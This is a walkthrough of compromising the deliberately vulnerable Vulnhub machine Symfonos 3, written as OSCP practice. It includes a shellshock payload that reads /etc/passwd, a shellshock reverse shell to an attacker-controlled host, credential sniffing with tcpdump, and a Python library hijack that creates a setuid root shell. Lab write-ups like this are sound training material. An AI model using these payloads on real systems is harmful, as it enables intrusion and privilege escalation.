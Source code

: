 +++
title = "Vulnhub: Symfonos 3"
date = "2021-02-11"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Intermediate", "Vulnhub", "OSCP Prep", "ffuf", "Directory Bruteforce", "ShellShock", "Tcpdump"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

<!--more-->
{{< image src="/img/symfonos1/symfonos1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author | 
| ---------- | ------------ | ------ | 
| Intermediate | 7 Apr 2020 | Zayotic | 

# Summary

In this box, we need to perform some directory bruteforce then use shellshock vulnerability to get our first shell.
We then sniff local traffic using tcpdump and get credentials for the next user who has permissions to write python2.7 lib 
directory. Using those write permissions we hijack a library that is imported in a script that is executed by root in a
cron job. We create a suid bash binary that we use to get a root shell.

# Reconnaissance

Nmap

```nmap
Nmap scan report for 192.168.191.130
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 cd:64:72:76:80:51:7b:a8:c7:fd:b2:66:fa:b6:98:0c (RSA)
|   256 74:e5:9a:5a:4c:16:90:ca:d8:f7:c7:78:e7:5a:86:81 (ECDSA)
|_  256 3c:e4:0b:b9:db:bf:01:8a:b7:9c:42:bc:cb:1e:41:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## HTTP (80)

Visiting the IP on the browser, all we get is a picture.

{{< image src="/img/symfonos3/symfonos3-11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Viewing the source doesn't reveal much.

{{< image src="/img/symfonos3/symfonos3-12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Performing a recursive directory bruteforce using ffuf with recursion enabled we get several directories.

```sh
ffuf -ic -c -u http://192.168.191.130/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -recursion | tee ffuf.out.recurse
```

{{< image src="/img/symfonos3/symfonos3-3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Going to the research endpoint, there's information about the Underworld and Greek mythology. 

{{< image src="/img/symfonos3/symfonos3-4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the words look similar to the directories we discovered, so let's create a wordlist which maybe helpful later.

```shell
cewl http://192.168.191.130/gate/cerberus/tartarus/research -w words.txt
```
The current directories we have discovered don't have much in them. At this point I was stuck a bit, after looking at
some writeups I realized that sometimes valid directories show when you have a trailing slash at the end. So I ran ffuf again
with a trailing slash.

```shell
ffuf -ic -c -u http://192.168.191.130/FUZZ/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt | tee ffuf.rootdir
```

{{< image src="/img/symfonos3/symfonos3-5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this idea, cgi-bin directory is discovered. This is a nice directory bruteforce tip I'll use going forward. The presence of
cgi-bin could potentially mean we can have a shellshock vulnerability.

Running another bruteforce using the wordlist I created earlier didn't work. I then thought to get a lowercase version of the 
words and try it.

```shell
cewl --lowercase http://192.168.191.130/gate/cerberus/tartarus/research -w words2.txt

ffuf -ic -c -u http://192.168.191.130/cgi-bin/FUZZ -w words2.txt
```
{{< image src="/img/symfonos3/symfonos3-13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With the lowercase wordlist, we get underworld.

To verify the shellshock vulnerability, we can send this request.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as cerberus

After verifying this vulnerability, we can get a reverse shell.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

On running id we notice that cerberus is part of pcap group. To figure out what is unique about this group I used the find
command.

```shell
find / -group pcap -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This reveals we can run tcpdump, therefore we can sniff network traffic. 

Before sniffing traffic, I used [pspy](https://github.com/DominicBreuker/pspy) to check for cron jobs and other commands being executed.

{{< image src="/img/symfonos3/symfonos3-9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this I was able to pick up a cronjob that runs as root. Since ftpclient.py is being executed, I'll sniff ftp 
traffic which isn't typically encrypted.

```shell
tcpdump port 21 -n -i lo -A
```

{{< image src="/img/symfonos3/symfonos3-10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From the tcpdump traffic we get new credentials, hades : PTpZTfU4vxgzvRBE.

# Privilege Escalation

Using the credentials we login to ssh as hades, running id reveals hades is in gods group.

{{< image src="/img/symfonos3/symfonos3-14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Running find again reveals we have write permissions to /usr/lib/python2.7 folder.

```shell
find / -group gods -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-15.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Based on the earlier output of pspy, we saw a cronjob that was running as root and python2.7 was being executed. Therefore we can hijack
any imports in that ftpclient.py script.

{{< image src="/img/symfonos3/symfonos3-16.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Since ftplib is imported, we'll replace ftplib.py with this script

```py
import os

os.system('cp /bin/bash /tmp/bash')
os.system('chmod +s /tmp/bash')
```

{{< image src="/img/symfonos3/symfonos3-17.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This will create a setuid bash binary in /tmp. Which can use to gain root privileges.

{{< image src="/img/symfonos3/symfonos3-18.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

